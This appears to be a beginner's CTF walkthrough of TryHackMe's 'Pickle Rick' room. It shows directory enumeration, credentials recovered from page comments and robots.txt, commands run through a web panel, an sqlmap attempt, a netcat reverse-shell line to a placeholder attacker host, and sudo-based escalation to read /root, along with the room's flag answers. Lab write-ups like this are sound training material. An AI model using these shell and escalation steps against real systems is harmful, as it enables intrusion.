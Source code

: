 ```yaml
---
description: LAST UPDATED FEB-2025 (p.s. pardon me, I'm still a rookie at CTFs)
---
```


# Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

Upon reading the source code in `http://10.10.253.172/`, I found the username `R1ckRul3s` within the comments.

...

```bash
gobuster dir -u ... -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...
/assets
/robots.txt
/.htaccess
/.htpasswd
...
```

...

From `/robots.txt`:

`Wubbalubbadubdub`

...

```bash
$ ffuf -u http://<target>/FUZZ.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
/login.php
/portal.php
...
```

...

```bash
$ ffuf -h -u http://<target>/FUZZ -w .../Apache_common.txt
/login.php
/portal.php
... 
```

I visited the path `/login.php` , and was presented with a login page. I utilized the information we have gathered earlier to discover the username and password combination of `R1ckRul3s` and `Wubbalubbadubdub` respectively.

**Enumerating the webpage**

&#x20;`/portal.php`:

The following comment was found in the source code:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This is a string that has been base64-encoded multiple times. The plaintext value turns out to be `rabbit hole` . Well, is this a clue,  perhaps a directory path value, name of a file, or simply something just to throw us off?

The main interface presented an input form that accepts commands for a Linux environment. This form will be used to enumerate the Linux system and find the ingredients.

### First ingredient

```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair
```

### Second ingredient

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disable
1 jerry tear
```

### Third ingredient

I was having difficulty finding the third ingredient from the file system, as most of my attempts at enumerating the directories returned an empty response. Thus, I decided to further enumerate the webpage.

Upon visiting `/denied.php` ,

We are presented with a message: "Only the REAL rick can view this page." This made me wonder, by _REAL rick_, does this mean we have to somehow access this page via the root account?

**SQL Injection attempt**

I attempted a SQL injection attack on the login form, in hopes of potentially discovering the name and password combination of the root, or higher privilege account.

```sql
...
```

```bash
$ sqlmap -u http://<target>:[port] --data "username=random&password=random&sub=Login" --risk ... -- ... --batch
... no signifcant results
```

The database used in the system seems to either not use an SQL-based database, or is simply not vulnerable to a SQL injection attack.

I decided to focus my efforts back on the shell environment presented in the interface. To provide myself with a more stable shell experience, I tried to establish a remote shell environment through a few methods: reverse shell and SSH connection.

**Attempts to initiate a reverse shell**

```bash
$ perl ... # perl
$ ... # bash
$ ... # python
$ nc <attacker> [port] -e /bin/sh # netcat
```

\
**Attempt to add a new SSH authorized key**&#x20;

```bash
$ ...
```

As mentioned before, access to the third ingredient most likely requires a privileged account. Thus, I attempted to escalate my privileges.

**Linux privilege escalation enumeration**

```bash
$ id
... # no dangerous groups such adm

$ find ..
# no dangerous file privileges

$ sudo -l

Matching Defaults entries for www-data on ip-10-10-49-150:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-49-150:
    (ALL) NOPASSWD: ALL # root privileges without password!!
    
```

**Attempts at abusing my `sudo` privileges to view system logs**

```bash
$ sudo less /var/log/syslog
...

===

```

**Finding the last and final ingredient**

Well, it turns out, the 3rd ingredient is not hidden within any log files, but simply in the `/root` directory.&#x20;

```bash
$ sudo ls -la /root
...
3rd.txt
...

$ sudo less /root/3rd.txt
fleeb juice
```
